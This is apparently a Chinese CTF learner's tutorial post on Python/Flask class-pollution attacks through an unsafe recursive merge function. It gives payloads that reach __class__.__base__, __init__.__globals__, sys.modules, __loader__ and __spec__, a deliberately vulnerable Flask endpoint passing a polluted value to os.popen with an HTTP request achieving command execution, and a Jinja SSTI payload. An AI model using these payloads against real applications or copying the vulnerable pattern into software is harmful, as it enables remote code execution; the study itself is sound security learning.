+++
title = "flask原型链污染"
slug = "flask-prototype-pollution"
description = ""
date = "2024-10-03T16:57:12"
lastmod = "2024-10-03T16:57:12"
image = ""
license = ""
categories = ["talk"]
tags = ["flask", "姿势"]
+++

# 0x01 前言

baseCTF里面的那几道我都是现学现做，只是知道污染怎么操作，并不知道为啥可以污染，这次让我彻底弄懂它！

# 0x02 question

## 父子类的继承

#### 概念

> 父类是被继承的类，也称为基类或超类。父类中的属性和方法会被子类继承。
>
> 子类是从父类继承而来的类，也称为派生类。子类可以拥有父类的所有属性和方法，还可以添加新的属性和方法，或者重写父类的方法。

同时还有几个重要方法，这里直接引用一位师傅所写的

> - 在Python中，定义类是通过`class`关键字，`class`后面紧接着是类名，紧接着是`(object)`，表示该类是从哪个类继承下来的，所有类的本源都是object类
> - 可以自由地给一个实例变量绑定属性，像js
> - 由于类可以起到模板的作用，因此，可以在创建实例的时候，把一些我们认为必须绑定的属性强制填写进去。通过定义一个特殊的`__init__`方法，在创建实例的时候，就把类内置的属性绑上
> - 注意到`__init__`方法的第一个参数永远是`self`，表示创建的实例本身，因此，在`__init__`方法内部，就可以把各种属性绑定到`self`，因为`self`就指向创建的实例本身。
> - 当我们定义了一个类属性后，这个属性虽然归类所有，但类的所有实例都可以访问到
> - 判断一个变量是否是某个类型可以用`isinstance()`判断。

#### 普通继承

在子类中，你可以使用 `super()` 函数来调用父类的方法。这在子类需要扩展而不是完全重写父类方法时特别有用。

```python
class Animal:
    def __init__(self, name):
        self.name = name

    def speak(self):
        raise NotImplementedError("Subclass must implement this abstract method")

    def eat(self):
        print(f"{self.name} is eating.")


class Dog(Animal):
    def __init__(self, name, breed):
        super().__init__(name)  # 调用父类的构造函数
        self.breed = breed

    def speak(self):
        print(f"{self.name} says Woof!")

    def fetch(self):
        print(f"{self.name} is fetching the ball.")


class Cat(Animal):
    def __init__(self, name, color):
        super().__init__(name)  # 调用父类的构造函数
        self.color = color

    def speak(self):
        super().speak()  # 调用父类的 speak 方法
        print(f"{self.name} says Meow!")

    def scratch(self):
        print(f"{self.name} is scratching the furniture.")


instance = Cat("无情","black")
print(instance.name)

```

看看就行感觉没啥好讲的，看就能看懂

#### 多重继承

一个子类可以继承多个父类

```python
class Flyer:
    def fly(self):
        print(f"{self.name} is flying.")

class Bird(Animal, Flyer):
    def __init__(self, name, species):
        super().__init__(name)  # 调用父类的构造函数
        self.species = species

    def speak(self):
        print(f"{self.name} chirps.")
```

方法的解析顺序我们靠`mro()`来查看

```python
print(Bird.mro())
# [<class '__main__.Bird'>, <class '__main__.Animal'>, <class '__main__.Flyer'>, <class 'object'>]
```

计算规则是这样

1. **子类优先于父类**：子类的方法和属性优先于父类的方法和属性。
2. **父类的顺序**：如果一个类有多个父类，那么这些父类的顺序会保持不变。
3. **唯一性**：MRO 列表中的每个类只出现一次。

但是这个实际的作用我还不知道是有啥，可能是效率问题？

## 污染过程解析

先看个最简单的`demo`

```python
class test():
    pass


a=test()
a.__class__='polluted'
print(a.__class__)
```

这里直接污染发现报错了

```
TypeError: __class__ must be set to a class, not 'str' object
```

那么此时我们如果要污染属性的话就去寻找其内置属性即可，`__qualname__`是用于访问类的名称

```python
class test():
    pass


a=test()
print(a.__class__)
a.__class__.__qualname__='polluted'
print(a.__class__)
```

而也就是说污染其实就是赋值，那么为了搞清楚原理，我们自己写段代码来调试就可以了

```python
class father:
    secret="hello"
class son_a(father):
    pass
class son_b(father):
    pass
def merge(src,dst):
    for k,v in src.items():
        if hasattr(dst,'__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v,dst.get(k))
            else:
                dst[k]=v
        elif hasattr(dst,k) and type(v) == dict:
            merge(v,getattr(dst,k))
        else:
            setattr(dst,k,v)
    
instance=son_b()
payload={
    "__class__":{
        "__base__":{
            "secret":"world"
        }
    }
}

print(son_a.secret)
print(instance.secret)

merge(payload,instance)
print(son_a.secret)
print(instance.secret)
```

然后进行debug就可以懂了，这里我还是自己试一次，毕竟是初学者

但是我发现个问题，我使用`VScode`始终进入不了`merge`函数，那没办法，我就下载一个`pycharm`吧,不过先讲讲函数

```python
def merge(src,dst):
    # 遍历字典中的所有键值对
    for k,v in src.items():
        # 检查dst是否为字典
        if hasattr(dst,'__getitem__'):
            # 如果存在键k并且v是一个字典
            if dst.get(k) and type(v) == dict:
                merge(v,dst.get(k))
            else:
                dst[k]=v
                # 如果dst是一个对象并且有属性k
        elif hasattr(dst,k) and type(v) == dict:
            merge(v,getattr(dst,k))
        else:
            # 将v赋值给k
            setattr(dst,k,v)
```

欧克那么下来我们开始调试，打断点在`merge(payload,instance)`处



可以看到我们的键为`'__class__'`,值为`{'__base__':{'secret':'world'}}`,下一步由于`dst`不为字典直接到了`elif`



继续之后，发现键为`'__base__'`,值为`{'secret':'world'}`



仍然是跳回到了这一步，继续看，再回来时，键为`'secret'`，值为`'world'`，现在的值已经不是字典了，所以直接跳转到了`setattr`，进行赋值



赋值之后还有一个东西，请看`jpg`





可以看到此时也是`dst`直接就指向地址了

那么我们就成功的通过当前类的`__base__`去污染了`secret`(现在这三个类的**secret**都是**world**)，不过这仅仅只是一个内置属性，那能不能实现最大的利用直接污染`object`呢

前面几步都在正常进行，可是到了后面，发现个问题，也就是我们刚才所有的回退那两步发现没了，从而直接报错，也就是说污染失败，得出结论

> object的属性不能污染

不过那回退**那三步**，又是怎么回事呢，我们再写一个多层的来试试，

```python
class father:
    secret = "hello"
    nested = {
        "level1": {
            "level2": {
                "level3": "initial_value"
            }
        }
    }

class son_a(father):
    pass

class son_b(father):
    pass

def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

instance = son_b()
payload = {
    "__class__": {
        "__base__": {
            "secret": "world",
            "nested": {
                "level1": {
                    "level2": {
                        "level3": "updated_value",
                        "new_level4": "new_value"
                    },
                    "new_level5": "new_value"
                }
            }
        }
    }
}

print(son_a.secret)
print(instance.secret)
print(instance.nested)

merge(payload, instance)
print(son_a.secret)
print(instance.secret)
print(instance.nested)
```

换成这个代码进行`debug`发现会在原地**跳伍次**

找规律都找的出来了吧，就是因为我们的`payload`深度所导致的，查找`payload`深度的方法



这样子`debug`，看看什么时候会完全的往外跳，记录下跳的次数即为`payload`深度

不过这样的话又要牵扯到`python`的循环了，那么查找官方文档，其中我们知道

循环是进行迭代调用的，从一个最简单的`demo`

```python
num=[1,2,3,4,5]

for i in num:
    print(i)
```

这里进行调试会发现，每次进入之后跳出循环都会在`for i in num:`跳一下

那么回到我们的`test`

```python
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
```

这里第一次通过`elif`进入`merge`函数，第二次也是，总共合起来就是三次循环，所以跳出时，也是需要原地跳三次才可跳出

那么再看一个最简单的`demo`吧

```python
from flask import Flask, request, jsonify
import os

app = Flask(__name__)

def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and isinstance(v, dict):
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and isinstance(v, dict):
            merge(getattr(dst, k), v)
        else:
            setattr(dst, k, v)

class Demo:
    def __init__(self, cmd):
        self.cmd = cmd

    def execute(self):
        return os.popen(self.cmd).read()

@app.route('/merge_and_execute', methods=['POST'])
def merge_and_execute():
    data = request.json
    if not data or 'cmd' not in data:
        return jsonify({"error": "Invalid input"}), 400

    cmd_data = data['cmd']
    a = Demo('echo Hello')
    merge(cmd_data, a)
    
    result = a.execute()
    return jsonify({"result": result})

if __name__ == '__main__':
    app.run(host='127.0.0.1',debug=True)
```

直接污染`cmd`就可以`RCE`了

```
POST /merge_and_execute HTTP/1.1
Host: 127.0.0.1:5000
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
sec-ch-ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-site: none
sec-fetch-mode: navigate
sec-fetch-user: ?1
sec-fetch-dest: document
Connection: close
Content-Length: 24
Content-Type: application/json

{"cmd":{"cmd":"whoami"}}
```

## 属性污染以及寻找

这里就神似`SSTI`中我们如何寻找可利用的方法了

### 原型链

如上面的，通过继承关系写出`poc`即可，当然与此同时，并不只是我们自定义的属性可以污染，还有内置属性也可以，这里可以以这个属性为例子

```python
class father:
    secret = "hello"


class son_a(father):
    pass


class son_b(father):
    pass


def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


instance = son_b()
payload = {
    "__class__": {
        "__base__": {
            "secret": "world",
            "__str__":"polluted!"
        }
    }
}
print(father.__str__)
merge(payload,instance)
print(father.__str__)
```

成功污染，好玩好玩

### 非继承

#### globals

我们在`flask`中进行`SSTI`注入的时候一般就会先去寻找`globals`，这里也是一样，我们直接去找就行了，不过注意的一点就是，如果我们不进行重写`__init__`的话，是找不到的

未重写

```python
class MyClass:
    pass

print(type(MyClass.__init__))
try:
    print(MyClass.__init__.__globals__)
# 访问不存在的属性会抛出AttributeError
except AttributeError as e:
    print(e)
    
# <class 'wrapper_descriptor'>
# 'wrapper_descriptor' object has no attribute '__globals__'
```

重写过后

```python
class MyClass:
    def __init__(self):
        self.x = 10

print(type(MyClass.__init__))  
print(MyClass.__init__.__globals__)  
# <class 'function'>
# {'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x000001BDD0B71700>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': 'D:\\PyCharm 2023.3.2\\object\\pythonProject\\test.py', '__cached__': None, 'MyClass': <class '__main__.MyClass'>}
```

同时这里我们也发现，当其未被重写时，它的类型是 `wrapper_descriptor`，没有`__globals__`，被重写会变为`function`，有`__globals__`，请看`demo`

```python
def demo():
    pass
class MyClass:
    def __init__(self):
        pass

print(demo.__globals__ == globals() == MyClass.__init__.__globals__)
```

说了这么多别给你说迷糊了，我们的目的就是得到`__globals__`，OK那么继续看

从SSTI的角度(flask)

```python
{{cycler.__init__.__globals__.__builtins__['__import__']('os').popen('whoami').read()}}
```

那么我们进入`cycler`源码

```python
class Cycler(MutableSequence):
    def __init__(self, **kwargs):
        self._keys = []
        self._length = 1
        self._by_key = {}
        for key, val in kwargs.items():
            if not hasattr(val, '__getitem__') or not hasattr(val, '__len__'):
                raise TypeError(f"{key!r} does not support indexing/length")
            self._keys.append(key)
            self._by_key[key] = val
            self._length = lcm(self._length, len(val))
        self._index = 0

    # 其他方法省略...
```

很明显看到`__init__`是被重写了的，其他的不放了(~~太长了~~)

那么我们为啥要找这个东西，这再说说

> `{{ cycler.__init__.__globals__ }}` 会返回 `cycler` 模块中 `Cycler` 类的 `__init__` 方法的全局命名空间。这个全局命名空间是一个字典，字典的内容如下
>
> 1. **内置函数和模块**：如 `__builtins__`。
> 2. **导入的模块**：如 `math`（如果 `cycler` 模块导入了 `math` 模块）。
> 3. **定义的类和函数**：如 `Cycler` 类本身，以及其他在 `cycler` 模块中定义的类和函数。
> 4. **其他全局变量**：如 `cycler` 模块中定义的其他变量。

理清楚了，来看demo，直接利用`__globals__`污染属性和类属性

```python
name="baozongwi"

class son_a():
    secret="nonono"

class son_b():
    def __init__(self):
        pass
    pass
def merge(src,dst):
    # 遍历字典中的所有键值对
    for k,v in src.items():
        # 检查dst是否为字典
        if hasattr(dst,'__getitem__'):
            # 如果存在键k并且v是一个字典
            if dst.get(k) and type(v) == dict:
                merge(v,dst.get(k))
            else:
                dst[k]=v
                # 如果dst是一个对象并且有属性k
        elif hasattr(dst,k) and type(v) == dict:
            merge(v,getattr(dst,k))
        else:
            # 将v赋值给k
            setattr(dst,k,v)

a=son_a()
b=son_b()

payload={
    "__init__":{
        "__globals__":{
            "name":"12SqweR",
            "a":{
                "secret":"good!!!"
            }
        }
    }
}
print(name)
print(a.secret)

merge(payload,b)
print(name)
print(a.secret)
```

这里我们就成功污染了，但是实际情况中，常常是存在于内置模块或者是第三方模块之中，此时我们就不太好找关系了。不过还是有很多办法的

#### sys

那么就要使用`sys`，因为`sys`模块的`modules`属性以字典的形式包含了程序自开始运行时所有已加载过的模块，可以直接从该属性中获取到目标模块，并随着模块的导入而动态更新。

test.py

```python
import sys
import son

class son_a():
    secret="nonono"

class son_b():
    def __init__(self):
        pass
    pass
def merge(src,dst):
    # 遍历字典中的所有键值对
    for k,v in src.items():
        # 检查dst是否为字典
        if hasattr(dst,'__getitem__'):
            # 如果存在键k并且v是一个字典
            if dst.get(k) and type(v) == dict:
                merge(v,dst.get(k))
            else:
                dst[k]=v
                # 如果dst是一个对象并且有属性k
        elif hasattr(dst,k) and type(v) == dict:
            merge(v,getattr(dst,k))
        else:
            # 将v赋值给k
            setattr(dst,k,v)

payload={
    "__init__":{
        "__globals__":{
            "sys":{
                "modules":{
                    "son":{
                        "son_test":{
                            "secret":"good!!!"
                        }
                    }
                }
            }
        }
    }
}
b=son_b()

print(son.son_test.secret)
merge(payload,b)
print(son.son_test.secret)
```

son.py

```python
class son_test:
    secret="nonono"
```

这里就以导入第三方块示例了

#### Loader加载器

`__loader__` 是一个属性，它存在于每个已导入的模块对象中。这个属性指向一个加载器对象，该对象负责加载该模块。在一些场景中常常伴有着`importlib`模块的使用，那么这个时候我们就可以使用`loader`加载器来进行`sys`模块的加载从而达到目的



加载器这个东西可以简单看看

**`BuiltinImporter`**：

```python
import math
print(math.__loader__) 
# <class '_frozen_importlib.BuiltinImporter'>
```

- 用于加载内置模块（如 `math`、`sys` 等）。

**`SourceFileLoader`**：

```python
import son   # 自定义模块才行
print(son.__loader__)
# <_frozen_importlib_external.SourceFileLoader object at 0x0000020819FA10D0>
```

- 用于加载来自文件系统的模块。

**`ExtensionFileLoader`**：

```python
import numpy
print(numpy.__loader__)
# <_frozen_importlib_external.SourceFileLoader object at 0x000001C8DC2710D0>
```

- 用于加载扩展模块（如 C 语言编写的扩展模块）。

只要是`BuiltinImporter`的加载器都行，所以这里还有**spec**也能用



那么来看demo吧

son.py

```python
class son_test():
    secret="nonono"
```

test.py

```python
import importlib
import son

class son_a():
    secret="nonono"

class son_b():
    def __init__(self):
        pass
    pass
def merge(src,dst):
    # 遍历字典中的所有键值对
    for k,v in src.items():
        # 检查dst是否为字典
        if hasattr(dst,'__getitem__'):
            # 如果存在键k并且v是一个字典
            if dst.get(k) and type(v) == dict:
                merge(v,dst.get(k))
            else:
                dst[k]=v
                # 如果dst是一个对象并且有属性k
        elif hasattr(dst,k) and type(v) == dict:
            merge(v,getattr(dst,k))
        else:
            # 将v赋值给k
            setattr(dst,k,v)
print("sys" in dir(__import__("importlib")))
payload={
    "__init__":{
        "__globals__":{
            "importlib":{
                "__loader__":{
                    "__init__":{
                        "__globals__":{
                            "sys":{
                                "modules":{
                                    "son":{
                                        "son_test":{
                                            "secret":"good"
                                        }
                                    }
                                }
                            }
                        }
                    }
                }
            }
        }
    }
}
b=son_b()

print(son.son_test.secret)
merge(payload,b)
print(son.son_test.secret)
```

然后`__spec__`

```python
import math
import son

class son_a():
    secret="nonono"

class son_b():
    def __init__(self):
        pass
    pass
def merge(src,dst):
    # 遍历字典中的所有键值对
    for k,v in src.items():
        # 检查dst是否为字典
        if hasattr(dst,'__getitem__'):
            # 如果存在键k并且v是一个字典
            if dst.get(k) and type(v) == dict:
                merge(v,dst.get(k))
            else:
                dst[k]=v
                # 如果dst是一个对象并且有属性k
        elif hasattr(dst,k) and type(v) == dict:
            merge(v,getattr(dst,k))
        else:
            # 将v赋值给k
            setattr(dst,k,v)

payload={
    "__init__":{
        "__globals__":{
            "math":{
                "__spec__":{
                    "__init__":{
                        "__globals__":{
                            "sys":{
                                "modules":{
                                    "son":{
                                        "son_test":{
                                            "secret":"good"
                                        }
                                    }
                                }
                            }
                        }
                    }
                }
            }
        }
    }
}
b=son_b()

print(son.son_test.secret)
merge(payload,b)
print(son.son_test.secret)
```

大家比照一下，很明显`__spec__`限制更少，我在实验的时候用`math`的loader来加载sys，结果弄半天后面一直不成功，于是看看有没有结果`false`

```python
print("sys" in dir(__import__("math")))
```

### 函数形参默认值替换

`__defaults__`是一个**元组**，用于存储函数或方法的默认参数值。当我们去定义一个函数时，可以为其中的参数指定默认值。这些默认值会被存储在`__defaults__`**元组**中。我们可以通过这个属性来污染参数默认值

```python
def a(x,y=2,z=3):
    pass

print(a.__defaults__)
# (2,3)
```

这是一个函数，有三个参数，其中一个必填参数(`x`)，还有两个是可选参数(`y`，`z`)，再多看看，把`__default__`看懂

```python
def func_b(var_1, var_2):
    pass

print(func_b.__defaults__)
# None
```

